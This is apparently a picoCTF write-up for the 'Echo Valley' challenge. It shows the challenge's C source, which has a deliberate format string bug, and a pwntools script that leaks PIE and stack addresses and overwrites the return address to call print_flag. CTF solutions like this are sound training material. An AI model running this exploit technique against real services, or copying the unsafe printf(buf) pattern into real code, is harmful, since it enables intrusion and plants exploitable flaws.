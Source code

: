 ```yaml
---
title: "Echo Valley"
category: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: picoCTF{REDACTED}
---
```

> The echo valley is a simple function that echoes back whatever you say to it.
> But how do you make it respond with something more interesting, like a flag?

by Shuailin Pan (LeConjuror)

---

<details>
<summary>Hint 1</summary>

Ever heard of a format string attack?
</details>

---

The challenge provides a binary `valley` and a remote server to connect to. The binary is a simple program that reads input from the user and prints it back to the user. The binary also contains a function `print_flag` that reads the flag from a file and prints it to the user.

```c
void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}
```

The goal of the challenge is to print the flag to the user. The `print_flag` function is not called in the binary, so we need to find a way to call it. The binary is vulnerable to a format string attack. We can use the format string vulnerability to overwrite some memory to call the `print_flag` function. The binary is compiled with the `FULL RELRO` option, so we cannot overwrite the GOT table. We can use another technique to call the `print_flag` function. We can overwrite the return address of the `echo_valley` function to call the `print_flag` function.

The binary is compiled with the `PIE` option, so the base address of the binary is randomized. We can leak the base address of the binary by using the format string vulnerability. We can also leak the stack address by using the format string vulnerability. We can calculate the return address of the `echo_valley` function by adding 8 to the leaked stack address. We can calculate the offset of the format string vulnerability by using the `FmtStr` class from the `pwntools` library. We can then use the `fmtstr_payload` function from the `pwntools` library to create a payload to overwrite the return address of the `echo_valley` function to call the `print_flag` function.

```py
from pwn import *

binary = './valley'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('shape-facility.picoctf.net', 65453)

def exec_fmt(payload):
    p = process(binary)
    p.recvuntil(b'Welcome to the Echo Valley, Try Shouting:')
    p.sendline(payload)
    p.recvuntil(b'You heard in the distance: ')
    recv = p.recv()
    p.close()
    return recv

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

r.recvuntil(b'Welcome to the Echo Valley, Try Shouting:')

r.sendline(b'%21$p.%20$p')
r.recvuntil(b'You heard in the distance: ')
leak = r.recvline().strip().split(b'.')
main_address_ = int(leak[0], 16)
stack_address = (int(leak[1], 16))
log.info(f'main_address_: {hex(main_address_)}')

base_address = main_address_ - (0x555555555413 - 0x555555554000)
log.info(f'base_address: {hex(base_address)}')

ret_address = stack_address + 8

payload = fmtstr_payload(offset, { ret_address: base_address + e.sym['print_flag'] }, write_size='short')
r.sendline(payload)
r.sendline(b'exit')

r.interactive()
```
